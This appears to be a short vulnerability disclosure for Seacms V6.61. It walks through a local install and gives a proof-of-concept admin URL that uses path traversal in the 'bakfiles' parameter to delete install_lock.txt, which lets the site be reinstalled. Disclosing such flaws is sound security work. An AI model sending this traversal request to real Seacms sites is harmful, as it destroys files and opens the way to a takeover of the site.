 ### delete arbitrary files vulnerability in Seacms Content Management System V6.61
1. Download the source code locally on the official website http://www.seacms.net. The environment is php+mysql environment.
2. My local installation path is seacms, so go to http://127.0.0.1/seacms/install/index.php to install.
3. After the installation is complete, modify the background path to adm1n and enter the background http://127.0.0.1/seacms/adm1n.
4. Visit the url: http://127.0.0.1/seacms/adm1n/admin_database.php?action=redat&delfile=1&redStruct=1&bakfiles=/../../../install/install_lock.txt, the lock file install_lock.txt is deleted (can cause the system to reinstall, re-install by visit http://127.0.0.1/seacms/install/index.php).

![image](13.png)

 The lock file install_lock.txt is deleted